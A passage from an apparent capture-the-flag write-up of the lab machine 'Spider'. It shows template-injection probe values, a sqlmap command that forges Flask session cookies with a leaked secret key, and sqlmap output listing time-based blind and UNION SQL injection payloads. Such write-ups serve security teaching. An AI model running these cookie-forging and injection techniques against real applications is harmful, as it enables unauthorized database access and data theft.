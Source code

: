     | 6  | 30b4268c-ffb0-4b39-a006-78f39c135921 | {{3*3}}    | q               |
    | 7  | 138f3d2f-4da5-44c2-aff1-f243ed2c368a | {{config}} | q               |
    +----+--------------------------------------+------------+-----------------+
    ...[snip]...
    

#### sqlmap Without Proxy

If I had some idea that the cookie values might be vulnable to SQL injection
before I wrote the proxy, I could just use the `--eval` flag in `sqlmap` as
shown [here](https://book.hacktricks.xyz/pentesting/pentesting-
web/flask#flask-unsign). The example they give is:

    
    
    sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
    

I’ll update that for Spider:

    
    
    oxdf@parrot$ sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': sess
    ion}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" 
    ...[snip]...
    custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
    ...[snip]...
    [12:16:17] [INFO] testing if the target URL content is stable
    you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you wa
    nt to merge them in further requests? [Y/n] n
    ...[snip]...
    (custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
    ---
    Parameter: Cookie #1* ((custom) HEADER)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: session=' AND (SELECT 7466 FROM (SELECT(SLEEP(5)))vsxk) AND 'ziEz'='ziEz
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: session=' UNION ALL SELECT CONCAT(0x7170627071,0x57476d444976695a4a78634c4f4348534e50564972517374416f43536c72794e4a4867516b74534c,0x7162707071)-- -
    ---
    ...[snip]...
    

I had first tried this with `--batch` to just accept the default answers to
any questions, but it is important to look at the questions `sqlmap` is
asking. The second one is “the site is trying to set a cookie, do you want to
use that [instead of the one you set with `--eval`]?”. It’s important to say
no to that.
